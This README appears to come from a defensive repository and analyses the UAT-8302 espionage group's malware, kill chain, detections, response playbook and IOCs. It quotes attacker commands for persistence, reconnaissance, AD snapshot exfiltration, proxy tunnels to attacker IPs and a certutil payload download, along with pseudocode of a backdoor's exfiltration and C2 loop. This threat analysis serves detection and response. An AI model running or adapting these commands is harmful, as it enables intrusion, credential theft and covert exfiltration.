

# UAT-8302 — China-nexus government espionage with shared APT arsenal

## TL;DR

Cisco Talos disclosed UAT-8302 on 5 May 2026 (modified 7 May 2026) as a
sophisticated China-nexus advanced persistent threat group that has been
targeting government entities in South America since late 2024 and in
southeastern Europe throughout 2025. The defining characteristic of
UAT-8302 is not a brand-new implant but the promiscuous rotation of
implants previously attributed to other China-nexus clusters: NetDraft
(a C# port of FinalDraft / SquidDoor, originally Jewelbug / REF7707 /
CL-STA-0049 / LongNosedGoblin), CloudSorcerer v3 (Kaspersky 2024),
VSHELL fronted by the SNOWLIGHT and brand-new SNOWRUST Rust stagers
(both used by UNC5174 and UAT-6382), the SNAPPYBEE / DeedRAT plus
ZingDoor combo (Earth Estries), and the Draculoader shellcode loader.
Dwell time is multi-month and intent is pure long-term espionage — no
destructive payloads observed.

## Attribution and confidence

- **Cluster (Talos):** UAT-8302. No single 1:1 alias exists yet across
  Mandiant, Microsoft or CrowdStrike publications.
- **Confidence:** Talos states *"high confidence"* that UAT-8302 is a
  China-nexus APT. Tooling artifacts in Simplified Chinese (gogo,
  SharpGetUserLoginIPRP, Stowaway, Hades HIDS framework) reinforce the
  nexus.
- **Overlaps (operational, not merges).**

  | Cluster | Vendor | Shared artifact |
  |---|---|---|
  | Jewelbug / REF7707 / CL-STA-0049 / LongNosedGoblin | Symantec / Elastic / Unit 42 / ESET | FinalDraft / SquidDoor (parent of NetDraft) |
  | Earth Estries / Earth Naga | Trend Micro | SNAPPYBEE + ZingDoor combo, Draculoader |
  | UNC5174 | Mandiant / GTIG | SNOWLIGHT stager, VSHELL |
  | UAT-6382 | Cisco Talos | SNOWLIGHT XOR key 0x99, VSHELL (Cityworks CVE-2025-0994) |
  | Erudite Mogwai / LuckyStrike Agent | Solar | NetDraft against Russian IT, 2024 |

- **Genealogy in this repo:** distinct toolchain from prior China-nexus
  cases covered (UAT-4356 / FIRESTARTER / LINE VIPER on Cisco ASA);
  same broad tradecraft category — China-nexus pre-positioning APT.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1190 | Edge n-day or 0-day profile (UNC5174 / UAT-6382 alignment); CVE not attributed by Talos |
| Execution / Defense Evasion | T1574.002, T1055.012, T1140 | DLL side-loading triad: benign signed exe + malicious DLL + encoded .ini/.bin; XOR 0x99 in SNOWLIGHT/SNOWRUST stagers |
| Persistence | T1053.005 | schtasks under `Microsoft\Windows\Maps\{guid}` pointing to `C:\ProgramData\Microsoft\Microsoft\Appunion.exe`; literal task names `ReconLiteDebug`, `RunWhatPC` |
| Discovery | T1018, T1046, T1069.002, T1087.002, T1135, T1482 | `whatpc.ps1`, ping sweeps via `for /l`, IPC$ portscan, gogo / httpx / naabu / dddd, `nltest /dclist /domain_trusts` |
| Credential Access | T1003.001, T1555.003 | adconnectdump.py (Entra Connect creds), MobaXtermDecryptor (SSH), `ae.exe -snapshot` AD snapshot, SharpGetUserLoginIPRP |
| Lateral Movement | T1021.002, T1047 | Impacket smbexec/wmiexec/psexec.py; `wmic /node:`; `schtasks /S` remote |
| Command and Control | T1071.001, T1102.002, T1568.002 | NetDraft → Graph + OneDrive; CloudSorcerer v3 → GitHub or GameSpot dead-drop; VSHELL → drivelivelime.com / msiidentity.com / *.workers.dev |
| Exfiltration | T1041, T1567.002 | Out via C2 channels or via Stowaway / anyproxy / SoftEther tunnels |
| Backdoor pre-positioning | T1090.001, T1090.002, T1572 | Stowaway (`wagent.exe -c 85.209.156.3:56456`), anyproxy, SoftEther `Communicator.exe /usermode` |
| Impact | — | Long-term espionage; no ransomware, no wiper |



The diagram shows the victim host lane on the left (numbered stages
from initial access through long-term espionage impact) and the
attacker C2 / proxy fabric on the right (legitimate-blending Graph /
GitHub / GameSpot channels at the top, bulletproof IP subnet at the
bottom). A bidirectional arrow between Stage 7 and the C2 cluster
captures the dynamic dead-drop resolution. The detection anchors box
at the bottom enumerates the sigma, kql and suricata files that catch
the chain.

## Stage-by-stage detail

### Initial Access

Talos does not attribute a specific CVE to UAT-8302 in this
disclosure. The group's behavior is consistent with the larger
China-nexus pattern of exploiting either zero-day or n-day
vulnerabilities on edge appliances or web-facing applications — the
same paradigm UNC5174 used against SAP NetWeaver (CVE-2025-31324) and
UAT-6382 used against Cityworks (CVE-2025-0994). The defensive
implication is that the main anchors live post-foothold, not at the
network perimeter.

### Execution and Defense Evasion

UAT-8302 leans on a consistent DLL side-loading triad:

1. A benign signed executable (`Yandex.exe`, `VMtools.exe`,
   `Communicator.exe` for SoftEther).
2. A malicious loader DLL named to satisfy the legitimate executable's
   imports (`mspdb60.dll`, `wininet.dll`).
3. An accompanying encoded data file (`test.ini`, `vm.ini`, a BIN file
   that is not a PE).

```cmd
Yandex.exe -r -p:test.ini -s:12
VMtools.exe -r -p:VM.ini -s:12
```

The loader decrypts the `.ini` payload and injects the resulting
shellcode into `explorer.exe`, `dpapimig.exe`, or `spoolsv.exe`. For
VSHELL, an intermediate Go-language stager — either SNOWLIGHT or the
newly observed Rust-based **SNOWRUST** (based on the LexiCrypt
obfuscator) — fetches the final payload and decodes it with a
single-byte XOR key **`0x99`**. Talos previously documented the same
0x99 key in UAT-6382 / Cityworks deployments, giving a strong
cross-cluster static anchor.

NetDraft adds a layer: a .NET helper library called **FringePorch** is
embedded via the Fody / Costura framework and decompressed in-process
at runtime — never landing on disk as a separate DLL.

UAT-8302 also deployed the **Hades HIDS / HIPS** kernel driver
(open-source, GitHub `theSecHunter/Hades-Windows`, written in
Simplified Chinese) — a System Monitoring filter driver registering
callbacks for process, thread, registry and file events. This gives
the operator a primitive to selectively allow, block or hide
events from the defender's EDR / AV.

T1574.002, T1055.012, T1140.

### Persistence

```cmd
schtasks /create /ru system ^
  /tn Microsoft\Windows\Maps\{a086ff1e-d6dc-45f7-b3e4-6udknw82sa} ^
  /sc hourly /mo 2 ^
  /tr "C:\ProgramData\Microsoft\Microsoft\Appunion.exe" /F

schtasks /create /tn "ReconLiteDebug" /ru SYSTEM /sc ONCE /st 08:25 /f ^
  /tr "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -File c:\windows\temp\whatpc.ps1"

schtasks /create /tn "RunWhatPC" /ru SYSTEM /sc ONCE /st 23:28 /f ^
  /tr "c:\windows\temp\run.bat"
```

Three durable IOCs: the literal task names `ReconLiteDebug` and
`RunWhatPC`, and the **double-`Microsoft\Microsoft`** path under
`C:\ProgramData\` which is camouflage — no legitimate Microsoft
installer uses that path. T1053.005.

### Discovery

`whatpc.ps1` is dropped to `C:\Windows\Temp\` and persisted via the
scheduled tasks above. It runs:

```powershell
whoami; whoami /groups; whoami /priv
net user; net localgroup; net localgroup administrators
ipconfig /all; ARP -a; ROUTE print; NETSTAT -ano
net share
wmic startup get caption,command
nltest /dclist:<domain>
net user /domain; net group /domain; net group "Domain Admins" /domain
nltest /domain_trusts
```

Subnet sweeping:

```cmd
cmd /Q /c (for /l %i in (1,1,254) do @ping -n 1 -w 300 192.168.1.%i ^| find "TTL=" ^&^& echo 192.168.1.%i is alive) > C:\Windows\Temp\alive_hosts.txt
cmd /Q /c (for /l %i in (1,1,254) do @net use \\192.168.1.%i\IPC$ ^>nul 2^>^&1 ^&^& echo 192.168.1.%i - Port 445 is open) > C:\Windows\Temp\portscan.txt
```

Open-source scanners: `gogo` (Simplified Chinese, GitHub
`chainreactors/gogo`), `QScan`, `naabu`, `dddd`, `httpx`, `PortQry`,
`nbtscan`. T1018, T1046, T1069.002, T1087.002, T1135, T1482.

### Credential Access

- `adconnectdump.py` — Python tooling to extract Entra Connect /
  Azure AD Connect credentials from the sync appliance. If the victim
  syncs with M365, this hands the operator the NTLM hash of the
  privileged AD Connect service account plus, in some versions,
  DPAPI-protected sync secrets. T1003.001.
- **MobaXtermDecryptor** (GitHub `h0ny/MobaXtermDecryptor`) — extracts
  saved SSH credentials from sysadmin MobaXterm profiles. T1555.003.
- **SharpGetUserLoginIPRP** (Simplified Chinese repo, `mabangde`) —
  pulls login information from domain controllers over RPC.
- AD snapshot via Sysinternals ADExplorer:

```cmd
ae.exe -snapshot c:\windows\temp\result.dat /accepteula
7zr.exe a -mx=5 c:\windows\temp\r.7z c:\windows\temp\result.dat
```

The resulting `.7z` is exfiltrated through whichever C2 channel is
active for the current implant.

### Lateral Movement

```cmd
wmic /node:<IP> process call create cmd.exe /c c:\programdata\e1.bat

schtasks /S <IP> /U <user> /P <pass> /create /tn "Runbat" /ru SYSTEM /f ^
  /tr "c:\windows\temp\run.bat" /sc ONCE /st 5:12
```

Combined with Impacket `smbexec.py` / `wmiexec.py` / `psexec.py`
patterns (Sysmon EID 1 + Windows Security 4624 type 3 bursts).
T1021.002, T1047.

### Command and Control

Three parallel C2 channels depending on the implant:

- **NetDraft** uses the Microsoft Graph API with OneDrive as the data
  carrier. All traffic terminates at `graph.microsoft.com` over TLS,
  blending in with any M365-enabled organization's normal egress.
- **CloudSorcerer v3** reads a public blob from a GitHub repository
  or a GameSpot user profile and decodes either a C2 URL or an OAuth
  access token to OneDrive / Dropbox. The actual C2 destination is
  therefore dynamic and resolved per session.
- **VSHELL** uses dedicated themed domains: `drivelivelime.com`,
  `msiidentity.com`, `trafficmanagerupdate.com/index.php`, and
  Cloudflare Workers fronting at `image.update-kaspersky.workers.dev`.

T1071.001, T1102.002, T1568.002.

### Exfiltration

Either over the live C2 channel (Graph / OneDrive / Dropbox token /
themed HTTPS) or through the pre-positioned proxy fabric (Stowaway,
anyproxy, SoftEther). T1041, T1567.002.

### Backdoor pre-positioning

```cmd
c:\windows\system32\wagent.exe -c 85.209.156.3:56456

cmd.exe /c (echo @echo off ^&^& start c:\windows\temp\mmc.exe -l 85.209.156.3:56456 -s <pass> ^&^& echo exit) > c:\windows\temp\trun.bat

ag531.exe -c 45.135.135.100:443 -s <blah> -f AgreedUponByAllParties

certutil -urlcache -split -f http://38.54.32.244/Rar.exe rar.exe
rar.exe x glb.rar
Communicator.exe /usermode
```

Bulletproof subnet ASNs (Stark / Aeza class): `85.209.156.0/24`,
`45.135.135.100`, `45.140.168.62`, `88.151.195.133`,
`156.238.224.82`, `185.238.189.41`, `103.27.108.55`, `38.54.32.244`.
T1090.001, T1090.002, T1572.

### Impact

Pure long-term espionage. No ransomware, no wiper, no destructive
payload observed. The threat is latent access for intelligence
collection.

## RE notes

| Component | SHA-256 | Lang | Packer | Notes |
|---|---|---|---|---|
| NetDraft + FringePorch | `1139b39d3cc151ddd3d574617cf113608127850197e9695fef0b6d78df82d6ca` | C# .NET | Fody/Costura | Side-loaded via signed exe + mspdb60.dll; FringePorch decompressed in-process |
| NetDraft variant | `ee56c49f42522637f401d15ac2a2b6f3423bfb2d5d37d071f0172ce9dc688d4b` | C# .NET | Fody/Costura | |
| NetDraft variant | `51f0cf80a56f322892eed3b9f5ecae45f1431323600edbaea5cd1f28b437f6f2` | C# .NET | Fody/Costura | |
| VSHELL payload | `35b2a5260b21ddb145486771ec2b1e4dc1f5b7f2275309e139e4abc1da0c614b` | Go | XOR 0x99 decoded | Stager-decoded final payload |
| VSHELL payload | `199bd156c81b2ef4fb259467a20eacaa9d861eeb2002f1570727c2f9ff1d5dab` | Go | XOR 0x99 decoded | |
| ZingDoor | `071e662fc5bc0e54bcfd49493467062570d0307dc46f0fb51a68239d281427c6` | C++ DLL | — | Earth Estries lineage |
| Draculoader | `843f8aea7842126e906cadbad8d81fa456c184fb5372c6946978a4fe115edb1c` | shellcode loader | — | Drop path `C:\Documents and Settings\All Users\Microsoft\Crypto\RSA\d3d8.dll` |
| SharpGetUserLoginIPRP | `9f115e9b32111e4dc29343a2671ab10a2b38448657b24107766dc14ce528fceb` | C# | — | Domain-controller RPC enumerator |

**NetDraft / FringePorch — structural pattern:**

```csharp
// Loader DLL exports DllMain and the side-load entry expected by Yandex.exe
public class Loader {
    public static void Side() {
        byte[] enc = File.ReadAllBytes("test.ini");
        byte[] dec = XorRollingDecode(enc, key: 0x99);
        Assembly a = Assembly.Load(dec);
        Type t = a.GetType("NetDraft.Core");
        t.GetMethod("Run").Invoke(null, null);
    }
}

// FringePorch — embedded via Fody/Costura as a compressed resource,
// decompressed and invoked inside the same AppDomain
public class FringePorch {
    public void Run() {
        var graph = new GraphClient(refreshToken: _embeddedToken);
        while (true) {
            var cmd = graph.GetItem("/cmd_queue/" + machineId).Read();
            switch (cmd.Op) {
                case "exec":     Process.Start(cmd.Path, cmd.Args); break;
                case "assembly": ExecuteAssembly(Convert.FromBase64String(cmd.Payload)); break;
                case "exit":     Environment.Exit(0); break;
                case "upload":   graph.UploadFile(cmd.LocalPath, "/exfil/"); break;
                case "download": File.WriteAllBytes(cmd.Dest, graph.DownloadFile(cmd.Source)); break;
                case "plugin":   LoadPlugin(cmd.Payload).Run(); break;
            }
            Thread.Sleep(cmd.SleepMs);
        }
    }
}
```

**CloudSorcerer v3 — process-name branching:**

```c
char procName[MAX_PATH];
GetModuleBaseName(GetCurrentProcess(), NULL, procName, MAX_PATH);

if (strcmp(procName, "dpapimig.exe") == 0) {
    InjectInto("explorer.exe");
    HANDLE pipe = CreateNamedPipe(L"\\\\.\\pipe\\cs_cmd", ...);
    while (ReadCmd(pipe, &cmd)) DispatchCmd(cmd);
}
else if (strcmp(procName, "spoolsv.exe") == 0) {
    char *blob = HttpGet("https://github.com/.../raw/main/data.txt");
    C2Info c2 = DecodeBlob(blob);   // URL or OAuth token (Dropbox / OneDrive)
    BeaconLoop(c2);
}
else {
    InjectInto("dpapimig.exe");
    InjectInto("spoolsv.exe");
}
```

**Operational reverser notes.** Hook
`Microsoft.Win32.Reflection.Assembly.Load` and observe FringePorch
inflation; ETW provider `Microsoft-Windows-DotNETRuntime` GUID
`{e13c0d23-ccbc-4e12-931b-d9cc2eee27e4}` with keyword `LoaderKeyword`
to catch dynamic .NET assembly loads. For CloudSorcerer, breakpoint
`CreateNamedPipeW` and dump the pipe name plus the named-pipe
message dispatcher table.

## Detection strategy

### Telemetry that matters

- **Sysmon EID 1** (process_creation): anomalous `Yandex.exe`,
  `VMtools.exe`, `Communicator.exe`, `Appunion.exe` parents; `whatpc.ps1`
  invocation; scheduled-task creations.
- **Sysmon EID 7** (image_load): `mspdb60.dll` or `wininet.dll` loaded
  from paths outside `System32`, `SysWOW64`, `WinSxS`.
- **Sysmon EID 11** (file_event): drops to
  `C:\ProgramData\Microsoft\Microsoft\`, `C:\Users\Public\`,
  `C:\Windows\Temp\result.dat`, `r.7z`.
- **Sysmon EID 3** (network_connection): C2 anchors and bulletproof
  subnets listed in the IOC table.
- **Windows Security 4688**: `cmd /Q /c for /l ... ping ... TTL=`
  literal; `schtasks /create /tn ReconLiteDebug`.
- **Windows Security 4624 type 3 burst** from a single internal IP
  toward 50+ destinations within 60–120 seconds (Impacket pattern).
- **Defender XDR** tables: `DeviceProcessEvents`, `DeviceImageLoadEvents`,
  `DeviceFileEvents`, `DeviceNetworkEvents`, `IdentityDirectoryEvents`.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/uat8302_side_load_mspdb60_wininet.yml` | `mspdb60.dll` or `wininet.dll` loaded from `Temp` / `ProgramData\Microsoft\Microsoft\` / `Users\Public\` |
| Sigma | `sigma/uat8302_recon_scheduled_tasks.yml` | schtasks /create with `ReconLiteDebug`, `RunWhatPC`, fake `Microsoft\Windows\Maps\{guid}` |
| Sigma | `sigma/uat8302_oss_recon_credential_tooling.yml` | gogo / httpx / naabu / dddd / ADExplorer snapshot / adconnectdump.py |
| KQL | `kql/uat8302_netdraft_graph_egress.kql` | Non-browser process beaconing `graph.microsoft.com` from `ProgramData\Microsoft\Microsoft\` |
| KQL | `kql/uat8302_dll_sideload_imageload.kql` | `mspdb60.dll` / `wininet.dll` from non-System32 |
| KQL | `kql/uat8302_deaddrop_resolver_chain.kql` | GitHub / GameSpot fetch followed within 5 min by a derived public-IP connection |
| YARA | `yara/uat8302_multi_family.yar` | NetDraft + FringePorch + Fody/Costura; CloudSorcerer v3 process-name branching + dead-drop; SNOWLIGHT / SNOWRUST / VSHELL XOR 0x99 stager |
| Suricata | `suricata/uat8302_c2_domains_subnet.rules` | TLS SNI / HTTP host anchors + bulletproof subnet egress (sids 8110001-8110005) |

### Threat hunting hypotheses

- **H1 — Side-load triad living in `ProgramData\Microsoft\Microsoft\`.**
  See [hunts/peak_h1_h2_h3.md](./hunts/peak_h1_h2_h3.md).
- **H2 — AD Connect dump tooling fingerprint.** Detect Python tooling
  with `aadconnect` / `adconnect` / `ADSync` substrings on any host
  that is not the formal AAD Connect appliance.
- **H3 — GitHub or GameSpot dead-drop resolver C2 channel.** Catch
  the "public blob fetch → derived public IP within 5 min" sequence.

## Incident response playbook

### First 60 minutes (triage)

1. **Network-isolate** the host immediately. Do not power down — both
   NetDraft and CloudSorcerer run components in memory.
2. **Capture RAM** with WinPMem / DumpIt / FTK Imager before any
   disk-side action.
3. **Enumerate scheduled tasks** with
   `Get-ScheduledTask -TaskPath '\Microsoft\Windows\Maps\*'` and export
   their XML.
4. **List established netconns** (`Get-NetTCPConnection -State Established`)
   and reverse-lookup against the IOCs.
5. **Snapshot suspect drop locations**: `C:\Windows\Temp\`,
   `C:\ProgramData\Microsoft\Microsoft\`, `C:\Users\Public\`.
6. **Revoke Graph OAuth tokens** for any user account observed signed
   in on the host since T0. Force re-MFA with FIDO2 ideally.
7. **If the victim is the AD Connect appliance**, declare a tier-0
   compromise: triple-tap krbtgt rotation, revoke ADCS-issued
   certificates, reset privileged service accounts.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Full memory dump | (host RAM) | WinPMem / DumpIt / FTK Imager | NetDraft / FringePorch / CloudSorcerer run in memory |
| Side-load triad | `C:\ProgramData\Microsoft\Microsoft\*.exe`, `*.dll`, `*.ini` | manual copy | Loader + encoded payload |
| VSHELL stager | `C:\Users\Public\*.bin`, `C:\Windows\Temp\*.bin` | manual | SNOWLIGHT / SNOWRUST + XOR 0x99 payload |
| Scheduled tasks XML | `C:\Windows\System32\Tasks\Microsoft\Windows\Maps\*` | xcopy | Persistence |
| Recon script | `C:\Windows\Temp\whatpc.ps1` | manual | Timeline anchor |
| AD snapshot | `C:\Windows\Temp\result.dat`, `r.7z` | manual | What the operator already exfiltrated |
| Event logs | `%windir%\System32\winevt\Logs\` | EvtxECmd | Timeline |
| Prefetch | `%windir%\Prefetch\` | PECmd | Execution evidence |
| Amcache | `%windir%\AppCompat\Programs\Amcache.hve` | AmcacheParser | Programs run |
| MFT + `$UsnJrnl:$J` | volume root | MFTECmd | File timeline |
| Certificate-store listing | `certutil -user -store {My,CA,Root}` output | manual | Pivot opportunities the operator enumerated |

### IR queries and commands

```powershell
# 1. List suspicious scheduled tasks
Get-ScheduledTask -TaskPath '\Microsoft\Windows\Maps\*' |
  Format-List TaskName, TaskPath, Actions, Triggers, Principal

# 2. Find the side-load triad
Get-ChildItem -Path 'C:\ProgramData\Microsoft\Microsoft' -Recurse -ErrorAction SilentlyContinue |
  Select-Object FullName, Length, LastWriteTime,
                @{N='Hash';E={(Get-FileHash $_.FullName -Algorithm SHA256).Hash}}

# 3. NetDraft Graph beacons in last 7 days (Sysmon EID 3)
Get-WinEvent -LogName Microsoft-Windows-Sysmon/Operational -MaxEvents 100000 |
  Where-Object {$_.Id -eq 3 -and $_.Message -match 'graph.microsoft.com'} |
  Select-Object TimeCreated,
                @{N='Image';E={($_.Message -split 'Image: ')[1] -split "`r" | Select-Object -First 1}}

# 4. Revoke Entra sign-in sessions for the affected user
Connect-MgGraph -Scopes "User.RevokeSessions.All","Directory.AccessAsUser.All"
Revoke-MgUserSignInSession -UserId 'user@tenant'
```

```kql
// Defender XDR hunt — full chain in 24h on a single device
DeviceImageLoadEvents
| where FileName in~ ("mspdb60.dll","wininet.dll")
| where FolderPath !startswith "C:\\Windows\\System32"
| join kind=inner (DeviceNetworkEvents
    | where RemoteUrl has_any ("graph.microsoft.com","drivelivelime.com","msiidentity.com","trafficmanagerupdate.com","workers.dev"))
  on DeviceId
| project Timestamp, DeviceName, FolderPath, FileName,
          InitiatingProcessFileName, RemoteUrl, RemoteIP
```

### Containment, eradication, recovery

- **Containment.** Network-quarantine the host, block all listed C2
  destinations at firewall / proxy / DNS, revoke Graph OAuth tokens
  for affected users, suspend the AD Connect service account if dump
  is confirmed.
- **Eradication.** **Re-image is mandatory.** UAT-8302 runs in-memory
  components plus multiple persistence anchors (schtasks, side-load
  triads in several paths). Cleaning on disk does not guarantee
  removal of FringePorch already loaded. Additional cleanup:
  - Reset password and revoke tokens for any account observed
    signing in on the compromised host after T0.
  - If the host was the AD Connect appliance: triple-tap krbtgt
    rotation, reset the AD Connect sync service account, audit Azure
    AD sign-in logs for anomalous activity with the sync account.
  - If CloudSorcerer v3 reached Dropbox or OneDrive C2: the access
    token is embedded in the dead-drop blob — locate and revoke the
    app registration that issued it.
- **What NOT to do.** Do not power off the host before capturing RAM.
  Do not manually clean `C:\Windows\Temp\` before copying — you lose
  `whatpc.ps1`, `result.dat`, prefetch. Do not assume a password reset
  alone is sufficient — Graph access tokens stay alive until their
  natural expiry (~1 hour) unless explicitly revoked.

### Recovery validation

Seven days without new outbound connections to the published IOCs,
no new scheduled tasks under `Microsoft\Windows\Maps\{guid}`, and
Defender XDR telemetry back to baseline. Re-enable identity only
after FIDO2 enrollment is in place for the affected users.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| sha256 | `1139b39d3cc151ddd3d574617cf113608127850197e9695fef0b6d78df82d6ca` | NetDraft / FringePorch implant | high | Talos |
| sha256 | `ee56c49f42522637f401d15ac2a2b6f3423bfb2d5d37d071f0172ce9dc688d4b` | NetDraft variant | high | Talos |
| sha256 | `35b2a5260b21ddb145486771ec2b1e4dc1f5b7f2275309e139e4abc1da0c614b` | VSHELL payload | high | Talos |
| sha256 | `199bd156c81b2ef4fb259467a20eacaa9d861eeb2002f1570727c2f9ff1d5dab` | VSHELL payload | high | Talos |
| sha256 | `071e662fc5bc0e54bcfd49493467062570d0307dc46f0fb51a68239d281427c6` | ZingDoor DLL | high | Talos |
| sha256 | `843f8aea7842126e906cadbad8d81fa456c184fb5372c6946978a4fe115edb1c` | Draculoader | high | Talos |
| sha256 | `9f115e9b32111e4dc29343a2671ab10a2b38448657b24107766dc14ce528fceb` | SharpGetUserLoginIPRP | high | Talos |
| domain | `drivelivelime.com` | NetDraft / VSHELL C2 | high | Talos |
| domain | `msiidentity.com` | UAT-8302 C2 | high | Talos |
| domain | `trafficmanagerupdate.com` | C2 serving `/index.php` | high | Talos |
| domain | `update-kaspersky.workers.dev` | Cloudflare Workers fronted C2 | high | Talos |
| ipv4 | `85.209.156.3` | Stowaway proxy node (multi-port) | high | Talos |
| ipv4 | `45.135.135.100` | Stowaway proxy on 443 | high | Talos |
| ipv4 | `185.238.189.41` | C2 on 8080 | high | Talos |
| string | `ReconLiteDebug` | Scheduled task name literal | high | Talos |
| string | `Microsoft\Windows\Maps\{a086ff1e-d6dc-45f7-b3e4-6udknw82sa}` | Fake-legitimate scheduled task path | high | Talos |

Full IOC set in [iocs.csv](./iocs.csv).

## Secondary findings

- **MuddyWater (Iran) "Dindoor" backdoor** based on the Deno
  JavaScript runtime, targeting a US bank, a Canadian non-profit and a
  software company. Activity ramped after Operation Epic Fury
  (ceasefire 5 May 2026). The Deno runtime is a tradecraft novelty for
  Iran-nexus operators. Worth tracking for a follow-on Monday slot.
- **CISA KEV active reminders.** CVE-2026-31431 ("Copy Fail") Linux
  kernel local privilege escalation — federal deadline 15 May 2026
  (this Friday). CVE-2026-6973 Ivanti EPMM (admin auth → RCE)
  actively exploited; CVE-2026-0300 PAN-OS Captive Portal RCE first
  fix expected 13 May 2026.
- **npm worm "CanisterSprawl" (TeamPCP).** Self-propagating variant
  in the Shai-Hulud lineage targeting popular SDK packages. TeamPCP is
  the same e-crime cluster we have already tracked across Bitwarden
  Shai-Hulud, Mini Shai-Hulud, VECT 2.0 alliance and SAP @cap-js.

## Pedagogical anchors

- Promiscuous tooling sharing across China-nexus clusters means
  attribution lives at the operational, not toolchain, level. A
  cluster name like UAT-8302 carries weight even without a 1:1 alias
  to a public actor brand.
- The double-`Microsoft\Microsoft\` path under `ProgramData` is a
  hard, near-zero false-positive anchor — combine it with
  Graph-API beaconing for a clean detection.
- Microsoft Graph + OneDrive as C2 is impossible to block at network
  level for any M365-enabled organization; defense must move to "who
  inside the host is reading or writing Graph tokens".
- Dead-drop resolution (GitHub raw, GameSpot profile) is a
  structural pattern — a public-blob fetch followed within minutes by
  a derived public-IP connection is rarely benign.
- Open-source Simplified-Chinese tooling (gogo, Stowaway,
  SharpGetUserLoginIPRP, Hades HIDS framework) is a soft attribution
  signal that often correlates with China-nexus operations.

## What's in this folder

| File | Purpose |
|---|---|
| [README.md](./README.md) | This write-up |
| [kill_chain.svg](./kill_chain.svg) | UAT-8302 kill-chain diagram, light/dark adaptive |
| [iocs.csv](./iocs.csv) | Full machine-readable IOC list |
| [sigma/uat8302_side_load_mspdb60_wininet.yml](./sigma/uat8302_side_load_mspdb60_wininet.yml) | DLL side-loading anchors (image_load) |
| [sigma/uat8302_recon_scheduled_tasks.yml](./sigma/uat8302_recon_scheduled_tasks.yml) | UAT-8302 schtasks literals |
| [sigma/uat8302_oss_recon_credential_tooling.yml](./sigma/uat8302_oss_recon_credential_tooling.yml) | OSS recon / credential-extraction tooling |
| [kql/uat8302_netdraft_graph_egress.kql](./kql/uat8302_netdraft_graph_egress.kql) | NetDraft Graph beacon from anomalous parent |
| [kql/uat8302_dll_sideload_imageload.kql](./kql/uat8302_dll_sideload_imageload.kql) | mspdb60.dll / wininet.dll from non-System32 |
| [kql/uat8302_deaddrop_resolver_chain.kql](./kql/uat8302_deaddrop_resolver_chain.kql) | Dead-drop fetch → derived public IP |
| [yara/uat8302_multi_family.yar](./yara/uat8302_multi_family.yar) | NetDraft, CloudSorcerer v3, SNOWLIGHT / SNOWRUST / VSHELL heuristics |
| [suricata/uat8302_c2_domains_subnet.rules](./suricata/uat8302_c2_domains_subnet.rules) | TLS SNI / HTTP host + subnet egress (sids 8110001-8110005) |
| [hunts/peak_h1_h2_h3.md](./hunts/peak_h1_h2_h3.md) | PEAK hunts H1 side-load triad, H2 AD Connect dump, H3 dead-drop resolver |

## Sources

- [UAT-8302 and its box full of malware — Cisco Talos](https://blog.talosintelligence.com/uat-8302/)
- [China-Linked UAT-8302 Targets Governments Using Shared APT Malware Across Regions — The Hacker News](https://thehackernews.com/2026/05/china-linked-uat-8302-targets.html)
- [LongNosedGoblin tries to sniff out governmental affairs in Southeast Asia and Japan — ESET WeLiveSecurity](https://www.welivesecurity.com/en/eset-research/longnosedgoblin-tries-sniff-out-governmental-affairs-southeast-asia-japan/)
- [Advanced backdoor Squidoor — Palo Alto Unit 42](https://unit42.paloaltonetworks.com/advanced-backdoor-squidoor/)
- [Fragile web: Operation REF7707 — Elastic Security Labs](https://www.elastic.co/security-labs/fragile-web-ref7707)
- [Jewelbug APT against Russia — Symantec / Broadcom](https://www.security.com/threat-intelligence/jewelbug-apt-russia)
- [CloudSorcerer — Securelist (Kaspersky)](https://securelist.com/cloudsorcerer-new-apt-cloud-actor/113056/)
- [Breaking down Earth Estries persistent TTPs — Trend Micro](https://www.trendmicro.com/en_us/research/24/k/breaking-down-earth-estries-persistent-ttps-in-prolonged-cyber-o.html)
- [Iran-Linked MuddyWater Hackers Target U.S. Networks With New Dindoor Backdoor — The Hacker News](https://thehackernews.com/2026/03/iran-linked-muddywater-hackers-target.html)
- [CISA Adds Actively Exploited Linux Root Access Bug CVE-2026-31431 to KEV — The Hacker News](https://thehackernews.com/2026/05/cisa-adds-actively-exploited-linux-root.html)
